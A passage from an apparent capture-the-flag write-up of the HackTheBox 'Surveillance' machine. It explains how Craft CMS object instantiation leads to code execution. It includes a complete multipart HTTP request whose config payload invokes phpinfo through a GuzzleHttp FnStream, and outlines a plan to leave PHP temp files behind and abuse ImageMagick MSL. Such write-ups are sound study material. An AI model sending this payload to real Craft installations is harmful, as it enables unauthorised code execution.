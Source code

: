 I’ve been able to inject `phpinfo` into the page. That is proof of vulnerability.

In the PHP Info page there’s some useful data to collect. The document root for the webserver is `/var/www/html/craft/web`:

![image-20240418085026485](https://0xdf.gitlab.io/img/image-20240418085026485.png)

There’s also a full section on imagick (The ImageMagick [class](https://www.php.net/manual/en/book.imagick.php)):

![image-20240418085135487](https://0xdf.gitlab.io/img/image-20240418085135487.png)

#### Strategy

Turning this into remote code execution is very similar to the arbitrary object instantiation exploitation in [Intentions](https://0xdf.gitlab.io/2023/10/14/htb-intentions.html#rce-via-imagemagick), which was based on [this blog post](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). The exploit there is to upload a Magick Scripting Language (MSL) file, and then reference it with PHP’s ImageMagick to get arbitrary file write.

There’s two major differences here:

- I don’t have a handy file upload ability.
- Rather than passing an argument to a file that is to be passed to ImageMagick, I’m going to create an instance of ImageMagick Myself.

#### File Upload

PHP [stores all files](https://stackoverflow.com/questions/3817360/where-does-php-save-temporary-files-during-uploading) attached to a POST request in `upload_tmp_dir` (typically `/tmp`) while it processes the request. However, if I can crash PHP, then it is possible that it will miss that cleanup and leave the temporary files behind.

To do that manually in Burp Repeater is a bit intimidating, but doable. I’ll work in small steps. First, I’ll convert the POST request from a POST to form data by updating the `Content-Type` header to define a boundary and moving each argument into it’s own block (delimited by the `boundary` proceeded by two dashes):

```
POST /index.php HTTP/1.1
Host: surveillance.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
Content-Length: 442

--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="action"

conditions/render
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="test[userCondition]"

craft\elements\conditions\users\UserCondition
--0xdf0xdf0xdf0xdf
Content-Disposition: form-data; name="config"

{"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()": [{"close":null}],"_fn_close":"phpinfo"}}
--0xdf0xdf0xdf0xdf

```
